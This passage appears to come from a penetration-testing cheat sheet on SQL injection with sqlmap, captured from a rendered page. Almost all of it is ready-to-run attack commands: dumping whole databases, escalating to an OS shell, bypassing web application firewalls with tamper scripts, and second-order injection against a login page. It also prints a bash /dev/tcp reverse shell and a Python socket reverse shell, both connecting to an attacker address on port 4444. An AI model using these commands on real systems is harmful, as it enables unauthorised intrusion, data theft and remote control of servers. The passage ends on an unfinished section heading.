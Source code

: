 Next, try to connect with your private key:

```
root@kali: ssh -i /home/.ssh/id_rsa.priv mysql@example.com
```

**Capturing the request with burpsuite of the login form or search form and feeding it to sql map**

```
root@kali:sqlmap -r request.txt –dump-all –level=5 –risk=3
```

Or we can let sqlmap automate the selection of the form parameters as below

```
root@kali:sqlmap -u http://domain.com/login.php --forms --dump
```

**Grabbing os shell after exploitation**

```
root@kali:sqlmap -r request.txt –dump-all –level=5 –risk=3 --os-shell
```

**And then from os-shell to nc shell:**

```python
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'
```

**OS-shell to Python shell**

```python
python3 -c` `'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my-own-ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Instructing sqlmap to try and bypass WAF**

```
root@kali:sqlmap -r req.txt --current-db --tamper=space2comment 
```

#### Using SQLmap for second order SQL injection

Generally If you a login page is the first page you are trying SQL injection against then the structure of the command looks in most scenarios similar to the one below:

```
sqlmap --technique=U -r login.request --dbms mysql --second-order 'http://domain.com/page.php' -p user
```

\[--technique=U] Use all available classes of injection techniques (boolean-based,error-based,time-base,etc..) \[--second-order=http://domain.com/page.php] This where SQL map will check for the results of the injected payloads and this is the vulnerable page to sql injection. _**Check the theory of second order sql injection to understand how this works**_ \[-p user] the vulnerable parameter is user in this case \[-r login.request] the is the login request captured by BurpSuite.

#### Using SQLmap with tamper script
